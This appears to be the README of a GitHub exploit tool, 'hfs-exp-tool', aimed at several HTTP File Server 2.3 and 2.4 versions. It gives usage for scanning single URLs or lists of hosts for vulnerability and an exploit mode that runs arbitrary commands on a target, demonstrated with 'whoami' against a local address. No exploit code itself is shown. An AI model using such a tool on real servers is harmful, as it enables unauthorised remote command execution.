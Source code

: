 # HFS-EXP-TOOL

[简体中文](https://github.com/10cks/hfs-exp-tool/blob/main/README_CN.md) | [English](https://github.com/10cks/hfs-exp-tool/blob/main/README.md)

HTTP File Server multipurpose tool, target version:
- 	HFS 2.3 beta
- 	HFS 2.3d
-   HFS 2.3m
-   HFS 2.3k
-   HFS 2.4.0 RC6
-   HFS 2.4.0 RC7

Usage:  
- hfs-exp-tool.exe --detect-url <protocol:host:port>
- hfs-exp-tool.exe --detect-file <filename>
- hfs-exp-tool.exe --exp <protocol:host:port> <command> [arguments...]

Demo:

Batch Inspection

```
.\hfs-exp-tool.exe --detect-file .\url.txt
```

Individual Detection Url

```
.\hfs-exp-tool.exe --detect-url http://127.0.0.1:8003
```

Command Execution

```
.\hfs-exp-tool.exe --exp http://127.0.0.1:8003 "whoami"
```
